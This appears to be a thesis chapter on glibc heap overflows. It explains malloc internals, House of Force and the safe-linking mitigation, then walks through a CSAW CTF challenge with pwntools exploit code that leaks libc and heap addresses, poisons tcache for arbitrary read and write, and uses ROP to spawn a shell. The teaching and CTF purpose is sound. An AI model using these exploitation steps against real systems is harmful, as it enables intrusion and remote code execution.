\chapter{Heap Overflow Vulnerability}
    \section{Background}
        This attack was first documented in 2005 in a paper called malloc maleficarum, where 5 techniques that are still usable today called: 
       \begin{itemize}
        \item[$\bullet$] house of force
        \item[$\bullet$] house of spirit
        \item[$\bullet$] house of prime  
        \item[$\bullet$] house of lore 
        \item[$\bullet$] house of mind
    \end{itemize}

    have been explained, in this chapter we will talk about the most famous, house of force which includes a bug called heap overflow.
    \clearpage
    
    \section{Malloc internal}
    The next bug that I will show, as can be understood from the name, concerns another section of memory such as the heap that works differently than the stack.\newline
    The heap known as Dynamic memory is a memory that is used for dynamic allocation, this is useful because you don't need to care about the size and the life time of the object. \newline
    Furthermore the heap in languages as C is manipulated from the user through functions as malloc() calloc() that permit you to create heap memory section usually called chunk, and free() to free your memory.\newline
     \begin{verbatim}
         void *a = malloc(8);
     \end{verbatim}

    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1.2\linewidth]{Images/chunk_structure.png}
        \caption{chunk in gdb}
        \label{fig:enter-label}
    \end{figure}
    
    Immagine to have this line of code, what is happening in the heap memory?\newline
    The heap will create this chunk where the first quad-word is 0x20 that represent the size of the chunk, 0x20 is the minimum size for a chunk, and the pointer to the chunk will be the next quad word "0x4ce770".\newline

    So we can deduce that the heap saves data such as the size inline directly on the heap, like the stack does for base pointers, etc.\newline
    The last nibble of the size field is 0x1, is used to represent flags, in this case the least significant bit is set indicating prev\_insue.\newline
    The prev\_inuse flags indicate, if the previous contiguous chunk is used will be set to 1 otherwise 0. \newline
    Last thing i want to talk about malloc internal is the top chunk.\newline
    Malloc treats that as yet unused heap memory as a single large chunk called top chunk.\newline
    In Fact every time we request memory from a malloc or calloc function we are stealing a part of the top chunk.\newline
    The value indicated in gdb previously is the remaining space of the heap memory.\newline
    In many glibc version the top chunk value hasn't any type of integrity check, this will be the point of the heap overflow.\newline
    \clearpage
    
    \section{How it works a Heap Overflow}
    As explained previously, malloc(), calloc() and realloc() are libc functions that allow you to create portions of dynamic memory called chunks into which data can be inserted dynamically.
    But if these features are used incorrectly, there is a possibility that an attacker will exploit these mistakes to create critical attacks.
    \begin{verbatim}
        void *malloc(size_t size);
        void *calloc(size_t nmemb, size_t size);
        void *realloc(void *ptr, size_t size);
    \end{verbatim}
    These are the definitions of malloc calloc and realloc from the linux manual, as you can see all the functions require a size, which is often the cause of many heap overflows.
    The following is vulnerable code that shows a misuse of size within these functions:
    \begin{verbatim}
        #include <stdio.h>
        #include <stdlib.h>
        void setup() {
          setbuf(stdin, NULL);
          setbuf(stderr, NULL);
          setbuf(stdout, NULL);
        }
        
        int main(){
            setup();
            puts("Insert your name: ");
        
            char *buf = malloc(100);
            if (buf == NULL) {
                fprintf(stderr, "Error malloc failed, NO INPUT");
                return 1;
            }
            scanf("%s", buf);
            printf("hello %s\n", buf);
        
            free(buf);
            return 0;
        }
    \end{verbatim}
    This code contains a critical bug, as can be seen when user input is entered, scanf is not used correctly, in fact the correct use is to specify \%n-1s in the format string where n is the size of the buffer and minus one is used because scanf add a null byte as a terminator.
    \clearpage
    Consequently if the user enters more than 96 characters there will be a heap overflow.\newline
    Potential payload and heap analysis:
    \begin{verbatim}
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    \end{verbatim}
        \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/heap_overflow.png}
        \caption{Heap overflow viewed in gdb }
        \label{fig:enter-label}
    \end{figure}
    How can we analyze the chunk that we have allocated "buf" is allocated previously compared to the value of the top chunk, so by performing an overflow we will overwrite the value of the top chunk with the value 0x4141414141414141
    the heap will think that the size of the remaining heap will be an arbitrary number.\newline
    At this point the program will not crash because at the time I am writing this thesis no type of integrity check on the size of the top chunk has been implemented, this allows us to create arbitrary write.
    \clearpage
    \paragraph{Craft arbitrary write}
    Basically in the world of exploitation we always try to have arbitrary writes and arbitrary reads.\newline
    Arbitrary read permit us to read addresses that allow us to bypass mitigations such asth aslr, canary. \newline
    Arbitrary writes to overwrite addresses that lead us to have remote command execution.
    In the case of the example shown above we have no print source so crafting an arbitrary read is impossible but in larger and more complicated systems they can be found. \newline
    But we have an arbitrary writing source, in fact we can overwrite the size of the top chunk making it giant and managing to overwrite the libraries and stack sections so as to overwrite sensitive data.
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/heap_trasformation.jpg}
        \caption{heap after overwriting top chunk}
        \label{fig:enter-label}
    \end{figure}
    \section{Mitigation}
    unfortunately the house of force technique, even if I decided to explain it previously, is deprecated since the glibc version 2.27, at the time of writing this thesis we are at 2.35 and many mitigations have been added that prevent the use of the house of force technique.\newline
    Inside the heap, many mitigations have been added within the glibc to avoid launching attacks, in this section we will only analyze those related to house of force and in the next section bypass techniques will be explained.\newline
    As explained previously, house of force consists of overwriting the top chunk so as to make it huge, exceeding the heap memory and being able to read/overwrite the entry that will allow us to do RCE.\newline
    \subsection{Top Chunk integrity check}
    Overwriting the top chunk with a size larger than that established by the creation of the heap is impossible, in fact this portion of code has been added within the code:\newline
    \begin{verbatim}
        victim = av->top;
        size = chunksize (victim);
    
        if (__glibc_unlikely (size > av->system_mem))
            malloc_printerr ("malloc(): corrupted top size");
  
    \end{verbatim}
    This code, as you can imagine, even if the rest of the code is absent, carries out a check on the size of the chunk, in fact if we try to create a chunk that overwrites the top and subsequently create another allocation on the heap will be print the string, "malloc( ): corrupted top size".
    \subsection{Safe Linking}
    The fundamental idea of safe linking is to mask the addresses within the linked lists that manage fastbin and tcache bins.\newline
    The technique that exploits safe linking uses ASLR mitigation which I explained in the stack buffer overflow mitigations chapter.\newline
    The forward pointer inside the fastbin and tcache bins from glibc version 2.32 will be XOR'd with the bits randomized by aslr.
    This mitigation does not allow attackers to have a clean pointer to the list of freed chunks.
    A hypothetical situation could be: \newline
    p : represents the value of the pointer that is saved by the fd field.\newline
    l : represents the address space where the fd is stored.\newline
    l >> 12:  shifted right by 12 is used to XOR P resulting in an encoded pointer, P'.\newline
    Below is an example written in Python that explains how safe linking masking and unmasking works: \newline
    \clearpage
    \begin{verbatim}

    p = 0x0000BA9876543180
    l = 0x0000BA9876543180
    x = x = p ^ (l>>12) # 
    print("masked ptr: ", hex(x))
    lbitshifted = l >> 12 
    y = x ^ lbitshifted
    print("unmasked ptr: ", hex(y))
    \end{verbatim}
    
        
    \section{How to exploit a heap overflow and demonstration of a challenge}
    \subsection{Introduction}
    In this section we will analyze a challenge that I solved during the csaw qualifier competition, a competition organized by an American team where the top 8 teams went to New York to play the finals.\newline
    In the challenge we will analyze there is a heap overflow bug, the name of the challenge is notes. \newline
    \subsection{Understand The Environment}
    In the challenge comes attachment that contains an x86\_64 ELF binary and the libc.so.6 file, no source code is provided that means we have to decompile the ELF file and analyze it with ida or ghidra.\newline
    The first step is to try to extrapolate what glibc is about so as to understand what mitigations and heap structure we are facing, following the commands with which I understood it:
    \begin{verbatim}
        command:
        strings libc.so.6 | grep GLIBC | less
        output:
        GNU C Library (Ubuntu GLIBC 2.35-3ubuntu1.6) stable release version 2.35.
    \end{verbatim}
    As you can see, we are talking about a glibc version 2.35, this implies that we will not be able to use the classic house of force technique because the safe linking and top chunk integrity check mitigations will be active.\newline
    The second step is to understand the mitigations applied by the kernel as in the case of stack buffer overflow we will use the checksec command of pwntools   .\newline
    \begin{verbatim}
        command:
        checksec chall
        outout:
        [*] '/home/ferro/Documents/tesi/thesis/chall_heap/chall'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    \end{verbatim}
    As you can see all the mitigations are enabled, but in the heap case we have to care only about PIE, ASLR, and FULL RELRO we wont deal with stack canary.
    \subsection{Reverse Engineering}
    The logic of the binary is very simple, it allows you to add, modify, view, remove notes, it is managed via an array of stuct that keeps track of the size of the note and a pointer to the chunk that will be allocated.\newline
     Analyzing the binary better, the function that allows you to edit a note contains a critical bug, follows the image of the editNote function.\newline
     \begin{figure}[htbp]
         \centering
         
\includegraphics[width=1\linewidth]{Images/heap_chall_bug.png}
         \caption{Vulnerable function}
         \label{fig:enter-label}
     \end{figure}

    As you can see when the input to be inserted is requested to modify the previously allocated note, the read function is used in a vulnerable way, after having applied some techniques and details in the field of reverse engineering, we can interpret the call to read like this:
    \begin{verbatim}
    read(0,note[edit_index]->text,note[edit_index]->size+16);
    \end{verbatim}
    Obviously, since we cannot change the size inside the memory we have the possibility of reading sixteen more characters inside the heap, allowing the attacker to perform a heap overflow.\newline
    The other functions such as createNote, deleteNote and viewNote seem to be implemented correctly without bugs, for this reason I decided not to show them.
    \subsection{Exploit Development and Testing}
    In this section we will talk about how to exploit a buffer overflow with chunk creation, edit chunk, view chunk, delete chunk primitives.\newline
    The first thing I did is create the exploit.py file and import pwntools, a library that allows me to send and receive bytes from the program, the code follows.
    \begin{verbatim}
    def malloc(size,index):
        io.sendline(b"1")
        io.sendlineafter(b"index:",str(index).encode())
        io.sendlineafter(b"size:",str(size).encode())
    def edit(index,content):
        io.sendline(b"2")
        io.sendlineafter(b"Index:",str(index).encode())
        io.sendafter(b"content:",content)
    def view(index):
        io.sendline(b"3")
        io.sendlineafter(b"Index:",str(index).encode())
    def delete(index):
        io.sendline(b"4")
        io.sendlineafter(b"Index:",str(index).encode())
    \end{verbatim}
    In the code above we can see two functions implemented by the pwntools library, both will send the input as bytes but sendlineafter allows you to do this after a string that the output generates.\newline
    \paragraph{leak libc base}
    the first step is to leak the libc base \newline
    There is a trick that allows you to leak the libc, which consists in allocating a chunk of very large size that is not freed in the tcache, in fact if we perform a free of a chunk that does not end up in the tcache (size greater than 0x408) we will have the fd field of our chunk pointing to libc.\newline
    If we are going to free an unsortedbin this will point to a pointer of the main arena, which will contain a pointer to libc.\newline
    The main arena is a structure that has the task of managing the heap, saving values such as top chunk, last reminder, heap start and heap and many other fields.\newline
    \clearpage
    Below is the code that allows us to leak libc base and bypass safe linking.\newline

    \begin{verbatim}     
    malloc(0x500,0)
    malloc(0x60,1)
    delete(0)
    pause()
    malloc(0x500,0)
    view(0)
    io.recvuntil("note : ")
    libc_addr=u64(io.recvline(False).ljust(8,b"\x00"))
    libc_addr=libc_addr-0x21ace0
    libc.address=libc_addr
    \end{verbatim}
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/leak_libc_heap_chall.png}
        \caption{Leak libc}
        \label{fig:enter-label}
    \end{figure}
    As you can see at address 0x55671813e2c0 we have a pointer to libc, at this point we just need to reallocate chunk of the same size and view it, malloc will not clean the contents of the freed chunk allowing us to leak a pointer to libc. \newline
    \paragraph{leak heap base and safe linking bypass}
    As regards heap leak, the same technique used previously is used but with the difference that the victim chunk will be of a size that allows us to insert it into the tcache after it is freed.\newline
    In fact, the tcache creates a FIFO list of freed chunks for each chunk size which will be incremented by 0x10.\newline
    the code follows:
    \begin{verbatim}
    #lek heap and safe linking
    malloc(0x90,2)
    delete(2)
    malloc(0x90,2)
    view(2)
    io.recvuntil("note : ")
    key=u64(io.recvline(False).ljust(8,b"\x00"))
    heap_base = key<<12
    success(f"SAFE LINKING KEY LEAK@: {hex(key)} ")
    success(f"HEAP BASE LEAK@: {hex(heap_base)} ")
    delete(1)
    delete(2)
    \end{verbatim}
    As you can see, we allocate a chunk of size 0x90 and make this free, after we reallocate it we will have a heap leak.\newline
    As regards the safe link bypass, the leak that we will generate will be the key that we will need to bypass the mitigation, in fact by performing an xor operation between the key and the pointer on the heap any address on the heap will bypass safe linking.\newline
    Finally, by shifting the key to the right we will have the base of the heap.
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/leak_heap_heap_chall.png}
        \caption{heap leak}
        \label{fig:enter-label}
    \end{figure}
    \paragraph{craft arbitrary read and leak environ with tcache poisoning attack}
    At this point we have all the leaks, in most heap exploits you need to craft arbitrary read and write, with these two techniques it is possible to perform many attacks.\newline
    First we will create an arbitrary read to leak the environ.\newline
    Environ is a pointer that usually points to the stack and is useful because it will always be at the same offset away from the return addres.\newline
    So the plan is to leak environ so as to understand how far away we are from the return address and then overwrite the return address with a rop and do remote command execution.\newline
    The technique we will use to leak environ is very reminiscent of the one to leak base heap.\newline
    In fact we can allocate two chunks with a size that will allow us to place them in tcache once they are freed and contiguous,  having 16 bytes of overflow we will be able to overwrite the size of the next previously freed one and overwrite the fd field with the environ address.\newline
    Then reallocate the chunk and inspect it, thus effectively leaking the environ.\newline
    Below is the code that allowed me to leak environ:\newline
    \begin{verbatim}
        malloc(0x78,3) # 3
        malloc(0x78,4) # 4 
        malloc(0x78,5) # 4 
        delete(5)
        delete(4) # 4
        edit(3,b"A"*0x78+p64(0x81)+p64(libc.sym.environ^key))
        malloc(0x78,4)  
        malloc(0x78,5) 
        view(5)
        io.recvuntil(b"note : ")
        environ=u64(io.recvline(False).ljust(8,b"\x00"))
        success(f"ENVIRON LEAK@: {hex(environ)} ")
    \end{verbatim}
    The image above explains the attack we just saw.\newline
    Furthermore, you will notice within the code that I have made that there are more allocations than those that I explained in the theoretical attack, in fact a critical point of heap exploitation is consolidation, glibc has optimization and memory saving techniques that if larger chunks than those previously used are allocated, the smaller ones will be consolidated.
    In this case we founded that environ it's faraway 0x120 bytes from main return address.\newline
    \begin{figure}
        \centering
        
\includegraphics[width=1\linewidth]{Images/arb_read_heapchall.png}
        \caption{Enter Caption}
        \label{fig:enter-label}
    \end{figure}
    
    \paragraph{craft arbitrary write and rewrite return address with tcache poisoning attack}
    At this point all we have to do is overwrite environ + 0x120, therefore the return address.\newline
    Arbitrary write works in the exact same way as arbitrary read but with the difference that instead of inspecting the function to leak any pointers, we have to write, so instead of the viewNote function we will use Editnote.\newline
    So as before we will create two chunks with size which will allow us to stay inside tcache, free the second to exploit the first so as to overwrite the size field with a fake size and the fd field with environ + 120 which corresponds to the return address.\newline
    \clearpage
    Follows the code that i used:\newline
    \begin{verbatim}
        malloc(0x18,1)
        malloc(0x18,2)
        malloc(0x18,3)
        delete(1)
        delete(2)
        delete(3)
        malloc(0x108,3) # 3
        malloc(0x108,4) # 4 
        malloc(0x108,5) # 4 
        delete(5)
        delete(4) # 4
        edit(3,b"B"*0x108+p64(0x111)+p64((environ-0x128)^key))
        malloc(0x108,4)  
        malloc(0x108,5)
    \end{verbatim}
    From this portion of code you can see how in addition to having created arbitrary write we are bypassing safe linking by xoring the environ address with the key leaked at the beginning of the exploit.\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.5\linewidth]{Images/arb_write_heapchall.png}
        \caption{Arbitrary write}
        \label{fig:enter-label}
    \end{figure}
    \clearpage
    \paragraph{rop attack and remote command execution}
    Finally we need to write the rop that will allow us to spawn a /bin/sh shell so as to execute commands remotely.\newline
    As explained in the stack buffer overflow chapter, rop is an attack that allows us to execute instructions and jump to another instruction via ret.\newline
    The rop structure of the rop that we will execute will look like this:
    \begin{verbatim}
        pop rdi; ret;
        address of "/bin/sh\x00"
        system 
    \end{verbatim}
    In this way the return address will insert the address of "/bin/sh" into the rdi register and ret will point to the system call inside the libc.\newline
    So we will make a call to system("/bin/sh").\newline
    Last but not least, our menu that allows us to add, edit, inspect and remove notes is inside a while true and even if the return address of main will be overwritten we will never call it.\newline
    Fortunately there is a call to exit that allows us to exit the while true and call return 0 of main which pops our shell correctly.\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/RCE_chall_heap.png}
        \caption{remote command execution}
        \label{fig:enter-label}
    \end{figure}